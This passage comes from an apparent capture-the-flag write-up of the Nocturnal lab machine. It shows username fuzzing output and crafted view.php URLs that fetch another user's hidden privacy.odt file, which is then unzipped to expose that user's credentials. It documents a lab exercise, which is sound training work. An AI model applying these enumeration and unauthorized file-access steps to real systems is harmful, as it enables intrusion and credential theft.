 ```
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 109ms]
123                     [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 118ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 116ms]
administrator           [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 113ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 108ms]
```

We found some users, for example, the `amanda` and `tobias` usernames seems weird, knowing the usernames, we can now check the url again and use the username:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250414145432.png)

Still getting the invalid file extension, if we remember them right, we can use any of them:

```
http://nocturnal.htb/view.php?username=amanda&file=.pdf
```

We get this:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250414145506.png)

There is a hidden file inside: `privacy.odt`, we can download it:

```
http://nocturnal.htb/view.php?username=amanda&file=privacy.odt
```

If we get it, we can see this:

```
file privacy.odt
privacy.odt: Zip archive, with extra data prepended
```

In order to extract a `.odt` file, we can use:

```
unzip privacy.odt -d privacy_content
```


We get this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250414145630.png)

If we check content.xml, we can see the following:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250414145723.png)

There we go, we got credentials for `amanda`:
